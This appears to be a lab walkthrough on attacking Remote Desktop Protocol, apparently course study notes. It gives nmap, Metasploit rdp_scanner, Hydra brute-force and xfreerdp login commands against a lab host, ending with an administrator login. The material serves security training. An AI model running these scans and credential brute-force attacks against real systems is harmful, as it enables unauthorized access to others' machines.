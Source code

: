 - The Remote Desktop Protocol (RDP) is a proprietary GUI remote access protocol developed by Microsoft and is used to remotely connect and interact with a Windows system.
- RDP uses TCP port 3389 by default, and can also be configured to run on any other TCP port.
- RDP authentication requires a legitimate user account on the target system as well as the user's password in clear-text.
- We can perform an RDP brute-force attack to identify legitimate user credentials that we can use to gain remote access on the target system.

Practical Demonstration
- `nmap -sV -O -sS -p- 10.2.24.86`
- We observe from the port scan results the port that RDP is hosted on by default, TCP port 3389, is not open, and that another port, port 3333, is open, but has no description of the service running on it, the lack of a valid description is because the port is not a well-known port.
- We can use a Metasploit module, by the name of `rdp_scanner`, to identify if the unknown service running on port 3333 is actually RDP.
	- `service postgresql start && msfconsole`
	- `search rdp_scanner`
	- `use auxiliary/scanner/rdp/rdp_scanner`
	- `options`
	- `set RHOSTS 10.2.24.86`
	- `set RPORT 3333`
	- `run`
- We need to have valid user credentials to authenticate to RDP, to find those credentials, we will be performing a brute-force attack against RDP using Hydra.
- `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.2.24.86 -s 3333 -t 10`
- `xfreerdp /u:administrator /p:qwertyuiop /v:10.2.24.86:3333`